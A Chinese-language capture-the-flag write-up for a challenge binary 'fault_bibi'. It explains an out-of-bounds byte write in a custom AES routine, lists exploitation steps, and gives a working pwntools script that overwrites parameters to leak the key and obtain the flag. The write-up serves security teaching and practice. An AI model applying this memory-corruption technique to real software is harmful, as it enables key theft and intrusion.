 ## 【漏洞点】
1. 加密函数有栈溢出覆盖<br>
   ![1](assets/1.png)
   ![1](assets/2.png)

## 题目分析

```c
 sub_22FF((__int64)v16, rand_1, 0);            // addRoundKeys
  for ( k = 1; k < dword_20545C; ++k )
  {
    if ( k == 8 )
      v16[v7] ^= v8;                            // -->key point 越界任意写一个字节，修改output地址为rand地址，可实现将key覆盖为密文输出
    sub_2886((__int64)v16);                     // subBytes
    sub_26B5((__int64)v16);                     // shiftRows
    sub_24B9(v16);                              // MixColumns
    sub_22FF((__int64)v16, rand_1, k);          // addRoundKeys
  }
  sub_2886((__int64)v16);
  sub_26B5((__int64)v16);
  sub_22FF((__int64)v16, rand_1, dword_20545C);
```
可以看到这里有个v16[v7] ^= v8,v7和v8是传进来的参数，然而在解密函数里可以覆盖到这两个的值
```c
  key_extension((__int64)&rand, (__int64)v1);
  AES((__int64)&input, (__int64)&output, (__int64)v1, byte_205440, byte_205441);
  printf02x((__int64)&output, 16);
```
后续的操作会把key值修改，最后还会把加密后的内容输出，输出的内容和key是一样的，这样就拿到了key了，但是要加密一样的字符串两次才可以
## 利用

1. 明文加密一次
2. 解密一次,使用0x20覆盖加密函数的两个参数
3. 再次使用相同明文加密,使得异或修改output地址为rand地址,实现覆盖key为输出的密文,输出则为key
4. 输入key,拿到flag




## exp1:
```python
from pwn import *

context.arch='amd64'
def cmd(command):
    p.recvuntil(">",timeout=0.5)
    p.sendline(command)

def main():
    global p
    #p = remote(host,port)
    p = process("./fault_bibi")
        #gdb.attach(p)
        # debug(0x0000000000003004)
    cmd('e')
    p.sendline("cafebabedeadbeefcafebabedeadbeef".decode('hex'))
    cmd('d')
    payload1 = "5658a9ced4f5415d3e85e2e879d464405658a9ced4f5415d3e85e2e879d46440"
    payload2 = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb"
    p.sendline(payload1)
    p.sendline(payload2)

    cmd('e')
    p.sendline("cafebabedeadbeefcafebabedeadbeef".decode('hex'))
    p.recvuntil("e:encryp",drop=True)
    p.recvuntil(">")
    key = p.recvuntil("e:encryp",drop=True)
    info(key)
    cmd('s')
    p.sendline(key)
    flag = p.recv(0x3c,timeout=0.5)
    info(flag)
    p.interactive()

if __name__ == "__main__":
    main()
```